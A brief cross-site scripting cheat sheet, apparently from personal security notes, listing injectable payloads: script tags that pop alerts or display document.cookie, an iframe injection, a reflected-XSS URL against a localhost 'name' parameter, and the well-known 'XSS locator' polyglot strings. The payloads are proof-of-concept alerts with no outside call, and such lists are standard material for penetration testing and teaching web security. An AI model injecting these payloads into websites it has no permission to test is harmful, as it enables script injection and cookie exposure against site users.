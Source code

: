 # XSS (CROSS SITE SCRIPTING)

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

iframe: `<iframe src="http://www.cnn.com"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`
Refleced (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`


Cheatsheet
----------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```
